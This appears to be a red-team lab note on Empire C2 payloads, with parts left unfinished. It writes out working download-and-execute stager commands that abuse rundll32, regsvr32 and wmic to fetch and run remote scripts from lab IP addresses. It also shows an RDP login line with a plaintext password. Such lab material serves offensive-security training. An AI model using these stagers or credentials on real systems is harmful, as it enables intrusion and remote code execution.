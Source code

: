 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create Powershell Stager

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

#### *Execution Technique:* Executing Stager with mshta.exe

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion


